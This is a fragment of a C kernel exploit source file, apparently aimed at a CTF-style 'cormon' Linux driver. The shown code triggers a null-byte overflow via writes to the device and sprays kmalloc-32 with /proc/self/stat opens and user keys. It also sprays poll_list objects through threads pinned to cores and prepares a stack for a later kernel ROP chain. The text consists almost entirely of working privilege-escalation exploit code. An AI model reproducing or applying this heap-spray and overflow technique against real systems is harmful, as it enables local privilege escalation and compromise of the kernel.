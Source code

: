 ```exploit.c

  if (neverend) {
    thread_assign_to_core(2);
    while(neverend);
  }

  return NULL;
}

void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0; // `write()` above must fail, so clear errno here
}

/*********** main ******************/

int main(int argc, char *argv[]) {
  char *keybuf = malloc(0x5000); // must be >= 0x4330 (low 2byte of single_next())
  puts("[.] Starting exploit.");

  puts("[+] preparing stack for later kROP...");
  save_state();
  krop_stack = mmap((void*)0x10000000, KROP_USTACK_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
  if (krop_stack == MAP_FAILED) errExit("mmap");

  assign_to_core(0);
  if ((cormon_fd = open(DEV_PATH, O_RDWR)) <= 2) errExit("open cormon");

  // Pre-spray kmalloc-32
  puts("[+] pre-spraying kmalloc-32...");
  for (int ix = 0; ix != NUM_PREPARE_KM32_SPRAY; ++ix) {
    if (open("/proc/self/stat", O_RDONLY) <= 2) errExit("prespray");
  }

  // Spray victim `user_key_payload` in kmalloc-32
  puts("[+] Spraying keys...");
  spray_keys(NUM_KEY_SPRAY, 'A');

  // Spray poll_list in kmalloc-32 and kmalloc-4k
  just_fd = open("/etc/hosts", O_RDONLY);
  printf("[+] Spraying poll_list (fd=%d)...\n", just_fd);
  if (just_fd <= 2) errExit("just_fd");

  assign_to_core(1);
  num_threads = 0;
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = ix < NUM_1ST_POLLLIST_ALLOC ? TIMEOUT_POLLFD : 1;;
    arg->num_size = NUM_POLLFD;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Wait some of `poll_list` in kmalloc-4k is freed (these are expected to be reused by cormon_proc_write())
  assign_to_core(0);
  usleep(500 * 1000); // wait threads are initialized
```